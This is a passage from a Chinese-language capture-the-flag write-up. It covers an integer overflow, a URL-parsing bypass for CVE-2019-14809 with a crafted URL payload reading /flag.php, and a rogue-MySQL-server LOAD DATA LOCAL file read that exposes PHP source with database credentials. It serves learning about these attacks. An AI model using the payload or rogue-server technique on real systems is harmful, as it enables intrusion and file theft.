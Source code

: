 ![image-20240415131937056](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240415131937056.png)

第二关，简单的整数溢出，是`-20000-（int16）tax`的自己测试就可以了

![image-20240415140031891](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240415140031891.png)

第三关，CVE-2019-14809，这个漏洞是解析错误

![image-20240415140953599](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240415140953599.png)

题目源码基本没有改，就是改了一个port，用:替代或者爆破。

payload：

```
http://root:P@ssw0rd!@[127.0.0.1]['Pwned!']:/flag.php
```



### hardsql

首先利用LOAD DATA local来从mysql客户端读取文件上传到mysql伪造服务端。

读取源码，然后拿到数据库密码，然后直接连接数据库

这里可以使用自己配置过的mysql服务器，也可以使用开源项目的（Rogue mysql server）我用的是[rmb122/rogue_mysql_server](https://github.com/rmb122/rogue_mysql_server)

![image-20240401152241049](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240401152241049.png)

读取源码

![image-20240401152559027](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240401152559027.png)

![image-20240401152634921](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240401152634921.png)

```php
<?php
session_start();
// 指定数据库连接信息
// MYSQL_USER: root
// MYSQL_PASSWORD: asd222!!@332asc
$status = 0;

if (isset($_POST["host"])) {
  $host = $_POST["host"];
  $username = $_POST["username"];
  $password = $_POST["password"];
  $dbname = $_POST["dbname"];
  $status = 0;
} else {
  $host = $_SESSION["host"];
  $username = $_SESSION["username"];
  $password = $_SESSION["password"];
  $dbname = $_SESSION["dbname"];
  $status = 1;
}


// 连接数据库
$conn = new mysqli($host, $username, $password, $dbname);

// 检查连接
if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}

```